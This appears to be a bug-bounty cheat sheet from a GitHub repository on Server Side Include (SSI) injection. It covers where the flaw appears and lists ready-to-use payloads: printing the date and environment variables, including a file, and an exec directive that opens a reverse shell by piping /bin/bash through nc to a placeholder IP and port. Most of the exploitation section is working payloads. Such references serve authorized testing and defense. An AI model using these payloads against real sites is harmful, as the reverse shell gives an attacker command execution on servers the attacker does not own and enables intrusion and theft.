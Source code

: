 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Server%20Side%20Include%20Injection.md#introduction)

SSI (Server Side Includes) Injection is a type of web security vulnerability that occurs when a web application allows untrusted user-supplied data to be used as part of a Server Side Include (SSI) directive

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Server%20Side%20Include%20Injection.md#where-to-find)

Usually it can be found anywhere. Just try to input the payload in the form or GET parameter

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Server%20Side%20Include%20Injection.md#how-to-exploit)

1. Print a date

```
<!--#echo var="DATE_LOCAL" -->
```

2. Print all the variabels

```
<!--#printenv -->
```

3. Include a file

```
<!--#include file="includefile.html" -->
```

4. Doing a reverse shell

```
<!--#exec cmd="mkfifo /tmp/foo;nc IP PORT 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Server%20Side%20Include%20Injection.md#references)

- [OWASP](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)

